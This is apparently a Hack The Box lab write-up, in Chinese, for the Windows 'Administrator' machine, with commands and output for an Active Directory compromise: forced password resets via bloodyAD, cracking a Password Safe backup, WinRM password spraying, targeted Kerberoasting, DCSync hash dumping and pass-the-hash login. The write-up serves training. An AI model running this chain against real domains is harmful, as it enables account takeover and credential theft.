





###### tags: `Hack the box` `HTB` `Medium` `Windows`

# Administrator

```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.197.16 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.197.16:21
Open 10.129.197.16:53
Open 10.129.197.16:88
Open 10.129.197.16:135
Open 10.129.197.16:139
Open 10.129.197.16:389
Open 10.129.197.16:593
Open 10.129.197.16:636
Open 10.129.197.16:3268
Open 10.129.197.16:5985
Open 10.129.197.16:445
Open 10.129.197.16:464
Open 10.129.197.16:3269
Open 10.129.197.16:9389
Open 10.129.197.16:47001
Open 10.129.197.16:49664
Open 10.129.197.16:49666
Open 10.129.197.16:49665
Open 10.129.197.16:49667
Open 10.129.197.16:49668
Open 10.129.197.16:53965
Open 10.129.197.16:53976
Open 10.129.197.16:53981
Open 10.129.197.16:53992
Open 10.129.197.16:64935

PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-01 15:33:26Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53965/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
53976/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53981/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53992/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64935/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-01T15:34:23
|_  start_date: N/A
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15516/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 2119/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50669/udp): CLEAN (Failed to receive data)
|   Check 4 (port 36774/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

根據題目給的帳號密碼`Olivia:ichliebedich`
```
Machine Information

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich
```

利用`bloodhound`，丟`zip`檔進去
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound-python -c All -u 'Olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.197.16 --zip

┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```


查看`help`，有`Force Change Password`的權限



利用[bloodyAD](https://github.com/CravateRouge/bloodyAD)來改`michael`的密碼為`password123`

```
┌──(kali㉿kali)-[~/htb]
└─$ bloodyAD --host 10.129.197.16 -d administrator.htb -u 'Olivia' -p 'ichliebedich' set password michael 'password123'
[+] Password changed successfully!
```

改成功可以發現可以成功登入，打下`michael`的帳號
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.197.16 -u michael -p 'password123'

*Evil-WinRM* PS C:\Users\michael\Documents>
```

回到`bloodhound`，再從`michael`開始發現他一樣有`Force Change Password`的權限可以改`Benjamin`的密碼，一樣改成`password123`


```
┌──(kali㉿kali)-[~/htb]
└─$ bloodyAD --host 10.129.197.16 -d administrator.htb -u 'michael' -p 'password123' set password benjamin 'password123' 
[+] Password changed successfully!
```

利用`benjamin:password`發現不能用`evil-winrm`，想到之前`rustscan`還有一個`ftp`的服務，登入看看
```
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.129.197.16

Name (10.129.197.16:kali): benjamin
331 Password required
Password:

ftp> dir
229 Entering Extended Passive Mode (|||57343|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3

ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||57344|)
125 Data connection already open; Transfer starting.
100% |*************************************************************************************|   952        2.96 KiB/s    00:00 ETA
226 Transfer complete.
```

得到一個`Backup.psafe3`參考[psafe file decrypt](https://hashcat.net/forum/thread-3883.html)，得到密碼為`tekieromucho`

```
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 5200 Backup.psafe3 /home/kali/rockyou.txt

Backup.psafe3:tekieromucho
```

利用`pwsafe`打開`Backup.psafe3`

```
┌──(kali㉿kali)-[~/htb]
└─$ pwsafe Backup.psafe3
```



把裡面的`user`變成`user.txt`，接著點右上角的`Edit`可以看到`Password`，存成`password.txt`，利用`crackmapexec`進行爆破`winrm`
```
┌──(kali㉿kali)-[~/htb]
└─$ cat user.txt      
alexander
emily
emma                                                                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ cat password.txt
UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
UXLCI5iETUsIBoFVTj8yQFKoHjXmb
WwANQWnmJnGV07WQN8bMS7FMAbjNur

┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.129.233.115 -u user.txt -p password.txt
SMB         10.129.233.115  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
HTTP        10.129.233.115  5985   DC               [*] http://10.129.233.115:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.233.115  5985   DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.233.115  5985   DC               [-] administrator.htb\alexander:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.233.115  5985   DC               [-] administrator.htb\alexander:WwANQWnmJnGV07WQN8bMS7FMAbjNur
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.233.115  5985   DC               [-] administrator.htb\emily:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.233.115  5985   DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb (Pwn3d!)
```


成功爆破出`emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`，登入之後可以在`C:\Users\emily\DEsktop`得到`user.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.233.115 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb

*Evil-WinRM* PS C:\Users\emily\DEsktop> type user.txt
e54eda3c46a1f9f4b4c93a9b5bebe196
```

再來看看`bloodhound`，有一個對`ethan`有`Generic`權限


查看`help`，有一個[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)用他




先同步時間
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo ntpdate 10.129.233.115

┌──(kali㉿kali)-[~/htb]
└─$ python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$fc8b2b716742c687d946db3a04c80153$673e8102e332562fe04a2f4d8b71298e31d26137bf3ba8437e2b224db24ee67dd32f200c8594858fc0b1bc5850527beb6fd141499fa8fe6b7feb00fbd1ad59b0238cb5ea26e71e578a4eee7063cd56b56c39de9984864d891f8f4eff6260dd7649ccc35a745504c1c0ee9c2c776f360b9d994e07422b0d78acab0d8527f7b0425ef764529112014850f57c0813f6ea1098b6bc2dd062d9dbce5a27d71cc04ca997ff89c3d6f1fd742a83fe7eb619ac84adf7a57c369ba1e13f844f4a6d1dd3534a917b7a996a3284f584770e15ad01ef0a0b545e7bd65a2f02a7e73946930bdaa5b3a9cdb71f69a8b210948a8b171ae46886def11777e7662bcb27999ff0815899c98e7c8803fc8f509d1b90cffc90bfd3f30c4c1d011d9bfbe30821dfae052255c8ad7cb9f5bb59d966144a3f289a481e2650c54fa531b85d24280d06b16d64d46f13652d2b0f0bee7bfaad3a2e9aa8e54f76a20b8b06c0d247082a6a706d1067436844e45ca2b321518aead7f22d1f186839808a74cdddb6df59e50905ec587bcfe9edde09695d742e8f2da0f35de9cafb392d824ab55fc752a4dda07b2b634a701453f4c92fff63723a00a4424fa2b96fd02fe3113141761b00f20e34513bc3a904b1599e38450cb4854fd6f4b670de2c620853d95c1d8a9de783be63ef18e064734f24b689e9f1ba5d4e1f0e65463fd3d1020f19f93a58ee92c54001cd523334a0f4dd6b05f155a0b0d733d0f78216cce85f7fc77826547130784defd072abfc231f5002aa4a6a72c7e8543512566275528f25696aefdef4ac858faef65b363b75af6fcc677a0bd6808f4194f1788c3d852dbbf248a07bf8462cc42179babfaaeb649702314b3927a32e6a9e1b015618e3f3031bf7d7558acb1aea4cc198b35a06d9e845470fd7689bbf4564bfcf20983cd87e4fd89dd424e917c34e429f443b8589c8c254788987c278fca8565df34e08ed7b39afe659c7a33c3f527b5534297b0432d183fa4c4781a37698b6287736920338d293f5d10133c6c692f145a244b9be7dd439ff88cf1afe6ae57c785d7c1b7998f0f68df2d888b9cd9c172a03f96293594e9b27e7178a55a4aa2c4b1cb8448aa0e636794def2061baa21be9dbb69fd07e4207072c035b19307d0122cb440031196880b945e9137a9f81f6046c0720345ee6a4a85d27f798b67c460b2b66bf721cb4a7ea6a119e8eecabfa85b4ed723143db36a670fa306aeab4bf3d01d0245c94bdd863ef35b0b3fc370763b35f45d6ba5fd0596a5b6b0791a07a689cb41b05131bb24230185cd05e22475aa0dbec93ef85d5cb052eed7398f78622caf2047598308fb52b440f7761c0acd357eb29c6111a9fcae2c4f825b02eab9f2cf20dc7198ccb39ddd6d1f9804ca8e4530bb2d01eadbf47ccf4cbe88b81debde68637300815b1e844a034eae937ac63e5f9fc877a0fe4b9e801cb90412ce449d7c7b0f0600d710ab9d8f533d4934c6d70bdf556eb845f3ef89bac5a93393310c296f4700a7f63d18040d7d6ca3d50
[VERBOSE] SPN removed successfully for (ethan)
```

成功得到密碼`limpbizkit`

```
┌──(kali㉿kali)-[~/htb]
└─$ john ethan_targetedKerberoast --wordlist=/home/kali/rockyou.txt 

limpbizkit       (?) 
```

再看`bloodhound`



可以`DCSync`



`secretsdump`得`Administrator`的hash`3dc553ce4b9fd20bd016e098d2d2fd2e`

```
┌──(kali㉿kali)-[~/htb]
└─$ secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'10.129.233.115'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::

...
```

成功`evil-winrm`登入後可在`C:\Users\Administrator\Desktop`得`root.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.233.115 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d6a4ec049bc19645f96b4f6f16e68c00
```